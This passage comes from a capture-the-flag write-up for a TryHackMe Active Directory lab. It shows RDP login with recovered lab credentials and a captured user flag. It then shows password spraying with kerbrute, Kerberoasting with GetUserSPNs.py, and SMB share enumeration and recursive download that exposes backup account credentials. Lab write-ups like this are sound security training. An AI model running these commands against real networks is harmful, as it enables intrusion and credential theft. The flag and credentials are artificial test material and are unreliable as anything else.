 ## TCP/3389 (RDP)
1. RDP w/ svc-admin:management2005
	``` 
	┌──(root💀kali)-[~/tryhackme/attacktivedirect/10.10.184.179/scans]
	└─# rdesktop -d spookysec.local -u 'svc-admin' -p 'management2005' $ip
	```
2. User Flag
	``` 
	TryHackMe{K3rb3r0s_Pr3_4uth}
	```
	![]({{ page.img_path }}Pasted%20image%2020220219231904.png)


# Privilege Escalation 

## Backup 
1. Password Spraying w/ kerbrute
	```
	~/tools/windows-binaries/AD/kerbrute passwordspray --dc $ip -d spookysec.local found_users_grep.txt management2005 -o password_spray_results.txt
	```
	![Attacktivedirect password spray.png](Attacktivedirect%20password%20spray.png)
	- Password (management2005) not reused elsewhere 
2. Kerberoasting w/ GetUserSPNs.py
	```
	GetUserSPNs.py spookysec.local/svc-admin:management2005 -dc-ip $ip -request
	```
	- Unable to find any SPN service accounts
3. Access `svc-admin` fileshares
	```
	smbmap -u 'svc-admin' -p 'management2005' -H $ip 
	```
	![Attactivedirect smbmap.png](Attactivedirect%20smbmap.png)
4. View `backup` directory
	```
	smbclient //$ip/backup -U 'svc-admin'
	```
	![Pasted image 20220219214804.png](Pasted%20image%2020220219214804.png)
5.  Get all files recursively from `backup` directory
	```
	smbclient //$ip/backup -U 'svc-admin' -c 'prompt;recurse;mget *'
	```
	![Attacktivedirect backup user creds.png](Attacktivedirect%20backup%20user%20creds.png)
	- backup@spookysec.local:backup2517860

